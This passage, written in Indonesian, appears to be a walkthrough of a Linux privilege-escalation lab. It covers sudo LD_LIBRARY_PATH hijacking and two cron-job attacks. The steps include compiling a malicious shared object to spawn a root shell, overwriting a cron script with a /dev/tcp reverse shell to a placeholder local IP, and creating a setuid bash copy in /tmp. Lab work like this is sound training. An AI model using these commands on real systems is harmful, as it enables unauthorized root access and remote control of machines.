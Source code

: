 2. selanjutnya buat shared objek dengan nama yang sama seperti sebelumnya(`libcrypt.so.1`) dengan menggunakan code yang ada di `/home/user/tools/sudo/library_path.c`

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

3. selanjutnya run apache2 dengan sudo saat sedang setting `LD_LIBRARY` environment variable ke `/tmp` (atau tempat output dari compiled objek)

```shell
sudo LD_LIBRARY_PATH=/tmp apache2
```

nantinya root shell akan spawn

# Task 8 : Cron Jobs - File Permissions

cron jobs merupakan program atau script dimana user menjadwalkannya untuk run diwaktu tertentu. Cron table files (crontabs) menyimpan konfigurasi dari cronjob. terletak di `/etc/crontab`

1. lihat isi crontab `cat /etc/crontab`. akan terdapat 2 cron jobs yang terjadwal untuk run tiap menit. satu run `overwrite.sh`, dan satunya lagi `/usr/local/bin/compress.sh`

2. cari full path `overwrite.sh` dengan cara 

```shell
locate overwrite.sh
```

3. kita dapat cek file permission nya

```shell
ls -la /usr/local/bin/overwrite.sh
```

4. lalu overwrite isi kontennya dengan

```shell
#!/bin/bash
bash -i >& /dev/tcp/IP-LOCAL/4444 0>&1
```

dan buka nc listener pada port tersebut.

# Task 9 : Cron Jobs - PATH Environment Variable

Cron Job path enviro var.

1. pertama, kita lihat isi dari crontab job dengan `cat /etc/crontab`. Dapat dilihat bahwa `PATH:..` var diawali dengan `/home/user` yang mana merupakan home dir dari user `user`.

2. selanjutnya kita buat file `overwrite.sh` di home direktori dengan isi:

```shell
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
